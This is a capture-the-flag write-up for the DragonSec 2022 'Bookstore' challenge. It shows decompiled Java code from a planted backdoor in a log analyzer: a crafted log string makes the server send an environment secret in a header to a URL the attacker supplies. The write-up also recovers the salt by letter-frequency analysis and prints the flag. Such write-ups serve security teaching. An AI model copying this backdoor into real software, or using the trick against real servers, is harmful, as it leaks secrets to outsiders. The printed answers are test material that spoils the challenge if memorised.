 ```yaml
---
title: Bookstore.json
author: Eyad Issa
ShowToc: true
date: 2022-04-18
---
```


The Bookstore.java challenge stated that:

> Web developer left the company becouse he was not being paid. He left some hidden features for him, to bypass security. Can you find the vunerability? http://book-store.dragonsec.si


And gave us a [`book_store.jar`](/ctf/dragonsec-2022/bookstore/book_store.jar) file.

## The Log4Book

If we open the jarfile with a decompiler (like [JD-GUI](https://java-decompiler.github.io/)) we can see that there is a vulnerability in the log analyzer.

```java
Pattern pattern2 = Pattern.compile("get\\{.*\\}salt=" + System.getenv("SALT"));
Matcher matcher2 = pattern2.matcher(mssg);
String substring2 = null;
if (matcher2.find()) {
   substring2 = matcher2.group();
}
if (substring2 != null) {
    downloadFile(substring2.substring(substring2.indexOf(123) + 1, substring2.indexOf(125)));
}
```

If the log string contains the template `get{...}salt=` plus the env var `SALT` the program tries to send an HTTP request to the url between `{...}` with the header `Not-Found:` and the env var `NOT_FOUND` as the value.

```java
URL link = new URL(url);
link.toURI();
HttpURLConnection conn = (HttpURLConnection) link.openConnection();
conn.setRequestMethod("GET");
conn.setRequestProperty("not-found", System.getenv("NOT_FOUND"));
```

## Finding the salt
We're given a hint:

> Method how the salt is generated is given through variable names in one java class. The salt is 8 chars long.

If we look at the class `Art` we can see that there are two strange variable names:

```java
> String frequency = fontType.getValue();
int analysis_should_be_fun = findImageWidth(textHeight, artText, frequency);
```

which create: *frequency analysis should be fun*

## Analyzing the frequency

After trying to find some studies about the frequency analisis of Shakespeare plays without any result, we remember that the hint stated that the salt is **8 chars** and there are exactly **8 paragraphs** in the page presented in the website and in the file [`book.json`](/ctf/dragonsec-2022/bookstore/book.json)

If we join the most repeated letter of each paragraph we get the salt and then we can get the program to ping our url with the flag.

> Salt: `oeeeeooo`

> Flag: `dctf{L0g_4_hid3n_d@7@_n0t_s0_h@rd_righ7}`
